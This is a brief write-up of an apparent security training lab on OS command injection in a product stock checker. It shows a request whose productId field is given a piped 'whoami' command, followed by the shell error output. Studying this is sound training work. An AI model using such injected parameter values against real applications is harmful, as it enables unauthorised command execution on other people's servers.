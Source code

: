 # OS command injection, simple case

## This lab contains an [OS command injection] vulnerability in the product stock checker.

## The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

## To solve the lab, execute the `whoami` command to determine the name of the current user.

step1
productId=2&storeId=3

### step2

productId=2|whoami&storeId=3

whoami: extra operand '1' Try 'whoami --help' for more information. /home/peter-IcRB7s/stockreport.sh: line 5: $2: unbound variable
